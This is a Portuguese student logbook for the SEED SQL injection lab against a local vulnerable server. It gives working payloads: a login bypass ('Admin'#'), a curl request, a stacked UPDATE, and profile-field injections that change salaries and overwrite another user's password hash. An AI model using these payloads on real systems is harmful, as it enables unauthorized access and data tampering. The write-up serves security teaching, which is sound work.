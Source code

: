 # SQL Injection
## Setup
> Para começar, utilizamos o seguinte comando para editarmos o ficheiro de forma a colocar uma nova entrada nos hosts conhecidos pela máquina virtual: <br>
```
sudo nano/etc/hosts
10.9.0.5 www.seed-server.com %nova entrada
```

> Posto isso, passamos à pasta LabSetup e corremos os containers escritos no lab e abrimos uma shell com acesso direto à base de dados manipulada durante os exercícios. <br>
```
dcbuild #docker-compose build
dcup #docker-compose up

dockps
docksh 2c #Para abrirmos uma shel do MySQL container para interagirmos diretamente 
```

>![](images/LOGBOOK8_1.png)

> E ficamos assim com o Setup feito e podemos passar às tasks. 


## Tasks

### Task 1: 
>Colocamos o comando: <br>
```
 mysql -u root -p 
 ``` 
> e colocamos a palavra-passe depois para executarmos o MySQL em modo root. <br>
> Posto isto, para escolhermos o schema fizemos: <br>
```
use sqllab_users;
```
> e como o objetivo da tarefa é selecionar os dados do utilizador cujo o name é "Alice" usamos o comando: <br>
```
SELECT * FROM credential WHERE Name = "Alice";
```
> Finalizamos assim a task 1. 

>![](images/LOGBOOK8_2.png)

 ### Task 2:
> Para a task 2 abrimos o site www.seed-server.com e analisamos o código fornecido em unsafe home.php, que demonstra não ser eficaz no que toca a segurança pois a query utilizada: <br>

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’
```
> utiliza diretamente as variáveis $input_uname e $hashed_pwd sem que estas sejam sanitizadas, ou seja, que sejam revistas com um processo de limpeza / validação / transformação dos dados para garantir que estejam num formato seguro e adequado. <br>
> Devido a essa fragilidade iremos usar isto para conseguir cumprir a tarefa. 

#### Task 2.1:
> Para a Task 2.1 temos o objetivo de entrar enquanto administradores. <br>
> Pressupondo que o nome do administrador é "Admin" e que não sabemos a senha, podemos colocar como nome de utilizador "Admin'#" para garantir que o comentamos toda a verificação da palavra passe e dessa forma esta ser ignorada no login.<br>
```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’Admin'#’ and Password=’$hashed_pwd’
```
> Assim ao colocarmos "Admin'#" o que está a acontecer é que o " ' " vai fechar com o anterior e o " # " vai comentar tudo o que vem à frente. <br>
> E então conseguimos cumprir a tarefa de fazer login na conta do administrador e desta forma obter dados que pertencem ao resto dos utilizadores da aplicação. <br>

>![](images/LOGBOOK8_3.png)

#### Task 2.2:

> Nesta tarefa temos o objetivo de repetir a tarefa 2.1 mas agora através da linha de comandos. Para isso vamos utilizar o comando 'curl' para fazer um pedido GET. <br>
> Foi nos dado este exemplo: <br>
```  $ curl ’www.seed-server.com/unsafe_home.php?username=alice&Password=11’  ``` 
> e ainda nos foi avisado que devemos tratar dos caracteres especiais de forma diferente. Podemos adaptar isso e criar outro comando malicioso. Começamos por cifrar os caracteres especiais, usamos o %27 que representa ' e o %23 que representa #: <br>
```$ curl "www.seed-server.com/unsafe_home.php?username=Admin%27%3&Password=" ```

>![](images/LOGBOOK8_4.png)

> Cumprimos então a tarefa obtendo o código html de toda a página que contém todos os dados que pertencem ao resto dos utilizadores da aplicação.

#### Task 2.3:

> Nesta tarefa vamos aproveitar a vulnerabilidade para criar mais uma instrução SQL em vez de simplesmente comentarmos o que vem para a frente. <br>
> Para isso, vamos usar ';' para colocar novos comandos de forma a atualizar a tabela. <br>
```sql
admin'; UPDATE credential SET Salary = 90000 WHERE ID = 1 AND Name = 'Alice'; # 
```
> Contudo, embora o comando estivesse bem, a operação não foi concluída devido a um erro na base de dados. <br>

>![](images/LOGBOOK8_5.png)

> Como mencionado no guião, existe uma contramedida que impede de executarmos duas instruções SQL neste ataque. Isso deve-se a uma extensão de MySQL utilizada pelo PHP do servidor que tem uma proteção que impede a execução de múltiplas queries. Fonte: https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php <br>

### Task 3:

> Nesta tarefa vamos aproveitar que ao o user atualizar o perfil é usada uma instrução UPDATE.

#### Task 3.1:

> Começamos por aproveitar os dados obtidos e as tarefas realizadas até agora e demos login com o username " Alice'# ". Chegamos à pagina para editar os dados pessoais, a que temos o código no ficheiro unsafe_edit_backend.php. Ao analisar o código repara-se também que existe outra query com vulnerabilidade, que tal como nas tarefas anteriores, não faz a limpeza / validação / transformação dos dados para garantir que estejam num formato seguro e adequado. <br>

>![](images/LOGBOOK8_6.png)

> Desta forma, já conseguimos alterar o salário que tentamos na tarefa 2.3. <br>
> Como o UPDATE vai atualizar vários campos da tabela "credential" e já reparamos que esta tem também o campo do salário, vamos então criar um comando para colocar no campo do Phone Number para que atualize (para além dos que já vai atualizar) ainda mais, o salário. <br>

```sql
911111111', Salary='90000
```
> e dessa forma vai então atualizar estes campos: <br>

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111’,Salary='90000' WHERE ID=$id;
```

>![](images/LOGBOOK8_7.png)

> E conseguimos assim concluir a tarefa 3.1, alterando o salário para um valor mais alto. <br>

#### Task 3.2:

> Nesta tarefa vamos fazer algo muito parecido com o anterior, porém vamos alterar o valor do salário do chefe "Boby" para 1. <br>
> Conseguimos fazer isso de forma rápida se fizermos um novo WHERE e comentarmos o anterior. Algo deste género: <br>

```sql
911111111', Salary='1' WHERE Name = 'Boby';# ```

> e o resultado fica assim:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111', Salary='1' WHERE Name = 'Boby';# WHERE ID=$id;
```

> Para vermos isto vamos à shell e corremos: <br>
```sql
SELECT Salary FROM credential WHERE Name='Boby';```
> Antes e depois:

>![](images/LOGBOOK8_8.png)

#### Task 3.3:

> Temos como objetivo fazer login através da conta do nosso chefe, e para isso vamos ter de alterar a senha dele. Depois de ter alterado o salário é fácil alterar a senha. <br>
> Analisamos o código fornecido em unsafe_edit_backend.php e verificamos que a forma como protegem a palavra passe é com criptografia SHA1. Por isso, para trocarmos a palavra passe para "jafoste" colocamos primeiro em hash "2e2a6402737a5e73c6baad2545f634d6be68d4ba". <br>

```sql
911111111', Password='2e2a6402737a5e73c6baad2545f634d6be68d4ba' WHERE Name = 'Boby';#```

> e o resultado fica assim: <br>

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111', Password='2e2a6402737a5e73c6baad2545f634d6be68d4ba' WHERE Name = 'Boby';# WHERE ID=$id;```

>![](images/LOGBOOK8_9.png)

> E dessa forma conseguimos então entrar no perfil do Boby com a palavra passe "jafoste".
